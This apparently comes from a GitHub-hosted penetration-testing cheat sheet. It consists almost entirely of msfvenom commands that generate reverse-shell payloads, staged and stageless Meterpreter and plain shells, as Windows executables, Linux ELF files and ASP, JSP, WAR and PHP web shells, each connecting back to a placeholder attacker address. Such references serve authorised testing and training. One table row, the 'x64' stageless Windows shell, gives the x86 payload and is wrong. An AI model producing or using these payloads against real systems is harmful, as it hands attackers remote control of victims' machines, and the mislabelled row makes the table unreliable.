 ### **COMMON MISTAKES TO AVOID**

1.  Mismatched payloads
2.  Trying to catch a staged shell without using the multi/handler
3.  Architecture mismatch
4.  32-bit payloads don’t contain the architecture in the naming convention, but 64 bit payloads do (as shown below).

### **METERPRETER BINARIES**

#### Staged Payloads for Windows

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f exe > shell-x86.exe` |
| x64 | `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f exe > shell-x64.exe` |

#### Stageless Payloads for Windows

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p windows/meterpreter_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f exe > shell-x86.exe` |
| x64 | `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=[PORT] -f exe > shell-x64.exe` |

#### Staged Payloads for Linux

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f elf > shell-x86.elf` |
| x64 | `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f elf > shell-x64.elf` |

#### Stageless Payloads for Linux 

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f elf > shell-x86.elf` |
| x64 | `msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f elf > shell-x64.elf` |

#### Meterpreter Web Payloads

| FORMAT | Command |
| --- | --- |
| asp | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f asp > shell.asp` |
| jsp | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f raw > example.jsp` |
| war | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f war > example.war` |
| php | `msfvenom -p php/meterpreter_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f raw > shell.php` |

### **NON-METERPRETER BINARIES**

#### Staged Payloads for Windows

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p windows/shell/reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f exe > shell-x86.exe` |
| x64 | `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f exe > shell-x64.exe` |

#### Stageless Payloads for Windows

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p windows/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f exe > shell-x86.exe` |
| x64 | `msfvenom -p windows/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f exe > shell-x64.exe` |

#### Staged Payloads for Linux

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p linux/x86/shell/reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f elf > shell-x86.elf` |
| x64 | `msfvenom -p linux/x64/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f elf > shell-x64.elf` |

#### Stageless Payloads for Linux

| Architecture | Command |
| --- | --- |
| x86 | `msfvenom -p linux/x86/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f elf > shell-x86.elf` |
| x64 | `msfvenom -p linux/x64/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f elf > shell-x64.elf` |

#### Non-Meterpreter Web Payloads

| Format | Command |
| --- | --- |
| asp | `msfvenom -p windows/shell/reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f asp > shell.asp` |
| jsp | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f raw > shell.jsp` |
| war | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f war > shell.war` |
| php | `msfvenom -p php/reverse_php LHOST=[IP-ADRESS] LPORT=[PORT] -f raw > shell.php` |